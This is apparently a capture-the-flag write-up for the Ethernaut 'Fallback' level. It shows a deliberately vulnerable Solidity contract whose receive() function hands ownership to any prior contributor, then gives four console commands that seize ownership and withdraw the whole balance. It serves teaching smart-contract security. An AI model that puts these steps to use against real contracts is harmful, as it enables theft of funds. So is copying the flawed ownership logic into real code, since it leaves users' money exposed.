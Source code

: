 # **Level 1 -- Fallback**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
`````` 
---
## ***Objectives***
* Claim ownership of the contract
* Reduce the balance to 0
---
## ***Thought Process***
There are two ways to change the owner of this contract.
* ```contribute()```
```js
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
In order to meet the ```require(msg.value < 0.001 ether)``` condition we can only send ETH value < 0.001 in every transaction when we send eth.

The ownership can only be obtained when the amount we deposit is greater than the amount of the owner.

However according to ``` constructor() ``` the owner has 1000 eth. If we use this way to hack, we need more than 1000 ETH. It's obviously not a good method. 

---
* ```receive() ```
``` js
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
  ```
```receive()``` will be called when the contract receives ETH. So we just need to maintain our balance greater than 0 and we send one more transaction with ETH.

---
## ***Solution***
1. send 0.0001 ETH to contract.
``` js
> await contract.contribute({value: toWei("0.0001")});
```

2. send ETH to contract by using ```sendTransaction()``` function. When contract receives ETH it will call ```receive()``` function.

``` js
> await contract.sendTransaction({value: toWei("0.00001")})
```
3. now owner has become to our address and we can check this
``` js
> await contract.owner()
```
4. call ```withdraw()``` function and take away all the money
``` js 
> await contract.withdraw()
```



